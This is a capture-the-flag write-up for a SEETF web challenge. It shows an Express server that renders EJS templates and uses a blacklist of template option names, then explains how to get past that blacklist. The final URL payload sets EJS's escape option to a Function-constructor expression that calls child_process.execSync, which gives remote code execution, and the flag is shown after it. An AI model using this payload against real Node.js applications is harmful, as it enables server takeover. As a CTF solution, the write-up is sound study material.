

# 🎓🌎 Express JavaScript Security
> My first JavaScript project.

## About the Challenge
We have been given a source code that contains some files with `.js` and `.ejs` extensions (You can download the file [here](dist_express-javascript-security_31d3740ae934682d8c36d3a3182c29981e0c9909)). Here is the content of main.js

```js
const express = require('express');
const ejs = require('ejs');

const app = express();

app.set('view engine', 'ejs');

const BLACKLIST = [
    "outputFunctionName",
    "escapeFunction",
    "localsName",
    "destructuredLocals"
]

app.get('/', (req, res) => {
    return res.render('index');
});

app.get('/greet', (req, res) => {
    
    const data = JSON.stringify(req.query);

    if (BLACKLIST.find((item) => data.includes(item))) {
        return res.status(400).send('Can you not?');
    }

    return res.render('greet', {
        ...JSON.parse(data),
        cache: false
    });
});

app.listen(3000, () => {
    console.log('Server listening on port 3000')
})
```

This is a Node.js Express server application that uses the EJS templating engine to render views. The server listens on port 3000. The application has two main routes: the root route ('/') and the '/greet' route. When accessing the root route, it renders the 'index' view. When accessing the '/greet' route, it checks the query parameters, converts them to a JSON string, and looks for any blacklisted items within the data. If any blacklisted item is found, it returns a 400 response with the message "Can you not?". Otherwise, it parses the JSON data, renders the 'greet' view with the parsed data and disables caching. And then here is the content of `greet.ejs`

```js
<html>

<body>
    <h1 style="font-family: <%= font %>; font-size: <%= fontSize %>px;">
        Hello <%= name %>
    </h1>
</body>

</html>
```

## How to Solve?
At first, we are using this [website](https://eslam.io/posts/ejs-server-side-template-injection-rce/) to perform Remote Code Execution, but `outputFunctionName` is blacklisted. Therefore, we need to find another working payload. Finally, I found another working payload after doing some googling. (Check out this [website](https://blog.z3ratu1.cn/hxpCTF2022wp.html)). Here is the final payload that I used to solve this challenge:

```
http://ejs.web.seetf.sg:1337/greet?name=test&font=test&fontSize=test&settings[view%20options][client]=1&settings[view%20options][escape]=%7B%7D.constructor.constructor(%22return%20process.mainModule.require(%27child_process%27).execSync(%27/readflag%27)%22)
```

I am executing the `/readflag` command to obtain the flag.



```
SEE{0h_n0_h0w_d1d_y0u_ch4ng3_my_0pt10ns}
```